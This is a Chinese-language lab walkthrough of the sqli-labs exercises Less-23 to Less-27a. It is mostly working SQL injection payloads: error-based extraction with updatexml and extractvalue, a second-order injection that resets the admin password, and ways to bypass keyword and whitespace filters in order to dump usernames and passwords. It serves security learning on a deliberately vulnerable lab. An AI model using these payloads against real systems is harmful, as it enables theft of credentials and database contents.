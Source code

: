 ### Less-23
过滤了`#` 和`--+`等闭合的符号，所以通过 `or '1'='1` 来闭合后面的引号,任然使用之前的报错原理
```
-1' and updatexml(1,concat(0x7e,(select database()),0x7e),1) or '1'='1
```
<!--more-->
获取security数据库的所有表单
```
-1' and updatexml(1,concat(0x7e,(select group_concat(table_name) from information_schema.tables where table_schema='security'),0x7e),1) or '1'='1
```
![](image/61.png)
获取user表所有字段
```
-1' and updatexml(1,concat(0x7e,(select group_concat(column_name) from information_schema.columns where table_schema='security' and table_name='users'),0x7e),1) or '1'='1
```
获取username/password
```
-1' and updatexml(1,concat(0x7e,(select group_concat(username) from users),0x7e),1) or '1'='1
-1' and updatexml(1,concat(0x7e,(select group_concat(password) from users),0x7e),1) or '1'='1
```
如果长度不够，可以通过limit 0,1这样的手法拿到所有数据

### Less-24 
#### 二次注入，可以概括为以下两步:
第一步：插入恶意数据
进行数据库插入数据时，对其中的特殊字符进行了转义处理，在写入数据库的时候又保留了原来的数据。

第二步：引用恶意数据
开发者默认存入数据库的数据都是安全的，在进行查询时，直接从数据库中取出恶意数据，没有进行进一步的检验的处理。
本地登录的地方我们发现万能密码失败，于是查看源码
```
$username = mysql_real_escape_string($_POST["login_user"]);
$password = mysql_real_escape_string($_POST["login_password"]);
$sql = "SELECT * FROM users WHERE username='$username' and password='$password'";
```
由于对于我们的账号密码使用`mysql_real_escape_string`转义过。
本题可以采用二次注入
1. 首先创建一个user叫做`admin'#`,密码随意，我们可以看到，数据库中真的就出现了这么一条数据
2. 然后使用`admin'#`加上自己的密码登录
3. 然后修改密码为123456，最后效果居然是将admin用户改为123456的密码，自己新建的账号密码还是自己设定的
##### why?
首先我们看更新密码的查询语句为
```
$sql = "UPDATE users SET PASSWORD='$pass' where username='$username' and password='$curr_pass' ";
```
这是因为上面的数据库更新语句，在用户名为 "admin'#" 时执行的实际是：
```
$sql = "UPDATE users SET PASSWORD='$pass' where username='admin'#' and password='$curr_pass' ";
```
等同于
```
$sql = "UPDATE users SET PASSWORD='$pass' where username='admin';
```

### Less-25
把 or、and过滤了,其实好像也没怎么用上，而且发现只是一次过滤，通过双写绕过，那么和第一题就差不多了
比如order中有or所以可以写成oorrder,将其中的一个or过滤后剩下为order
```
-1' union select 1,2,group_concat(schema_name) from infoorrmation_schema.schemata%23
```
### Less-25a
先寻找注入点
```
1" oorr 1 %23
1' oorr 1 %23
1 oorr 1 %23
```
只有第三种没啥问题，所以本题就是不需要加引号直接注入
```
-1' union select 1,2,group_concat(schema_name) from infoorrmation_schema.schemata%23
```
### Less-26
空格与注释被过滤了,最后的注释可以使用`or '1'='1` 来闭合，
然后空格可以用这些代替
```
%09 = TAB键（水平）

%0a = 新建一行

%0c = 新的一页

%0d = return功能

%0b = TAB键（垂直）

%a0 = 空格

&&(%26%26) = and
```
使用报错注入
```
0'||updatexml(1,concat(0x7e,(database()),0x7e),1)||'1'='1
```
这样是没问题的，然后爆库
```
0%27||updatexml(1,concat(0x7e,(select%0Agroup_concat(schema_name)%0Afrom%0Ainfoorrmation_schema.schemata),0x7e),1)||%271%27=%271
```
然后不行了，黑人问号？
试试直接拿数据
```
0%27||updatexml(1,concat(0x7e,(select%0agroup_concat(username)%0afrom%0ausers),0x7e),1)||%271%27=%271
```
![](image/63.png)
![](image/62.png)
最后网上有师傅回答是windows系统的缘故？然后发现可以用括号过滤乖乖
```
0'||extractvalue(1, concat(0x5c,(select(group_concat(table_name))from(infoorrmation_schema.tables)where(table_schema)=database())))||'1'='1
```
表名
```
0'||updatexml(1,concat('$',(select(group_concat(table_name))from(infoorrmation_schema.tables)where(table_schema='security'))),0)||'1'='1
```
字段名
```
0'||updatexml(1,concat('$',(select(group_concat(column_name))from(infoorrmation_schema.columns)where(table_schema='security')%26%26(table_name='users'))),0)||'1'='1
```
数据
```
0'||updatexml(1,concat('$',(select(concat('$',id,'$',username,'$',passwoorrd))from(users)where(username)='admin')),0)||'1'='1
```

### Less-26-a
题目提示空格与注释被过滤了而且加了括号，所以还是盲注解决吧(其实还是windows环境的锅导致%0a等不能实现，正经的服务器应该不会是windows的吧)
所以这样是可以de
```
100')union%a0select%a01,user(),('3
```
### Less-27
题目提示union与select被过滤了，可直接报错使用，当然也可以大小写来绕过还是上面的问题，因为windows的服务器，%0a不用，所以还是使用报错来写
```
0'||(updatexml(1,concat(0x5e5e,database()),1))||'1'='
```
然后想拿数据
```
0'||updatexml(1,concat('$',(select(concat('$',id,'$',username,'$',password))from(users)where(username)='admin')),0)||'1'='
```
很好就报错了
![](image/62.png)
然后发现有师傅提供了一种非常骚的做法,用`/*%0a*/`强行制造空格。awsl
```
0'/*%0a*/UnIoN/*%0a*/SeLeCt/*%0a*/2,database(),4/*%0a*/||/**/'1'='1
```
表名
```
0'/*%0a*/UnIoN/*%0a*/SeLeCt/*%0a*/2,(SeLeCt/*%0a*/group_concat(table_name)/*%0a*/from/*%0a*/information_schema.tables/*%0a*/where/*%0a*/table_schema='security'),4/*%0a*/||/*%0a*/'1'='1
```
字段名
```
0'/*%0a*/UnIoN/*%0a*/SeLeCt/*%0a*/2,(SeLeCt/*%0a*/group_concat(column_name)/*%0a*/from/*%0a*/information_schema.columns/*%0a*/where/*%0a*/table_schema='security'/*%0a*/%26%26/*%0a*/table_name='users'),4/*%0a*/||/*%0a*/'1'='1
```
数据
```
0'/*%0a*/UnIoN/*%0a*/SeLeCt/*%0a*/2,(SeLeCt/*%0a*/group_concat(concat_ws('$',id,username,password))/*%0a*/from/*%0a*/users),4/*%0a*/||/*%0a*/'1'='1
```
### Less-27-a
把单引号改成双引号即可
```
0"/*%0a*/UnIoN/*%0a*/SeLeCt/*%0a*/2,database(),4/*%0a*/||/**/"1"="1
```

更多介绍？
[https://kit4y.github.io/tags/Sql-Injection/](https://kit4y.github.io/tags/Sql-Injection/)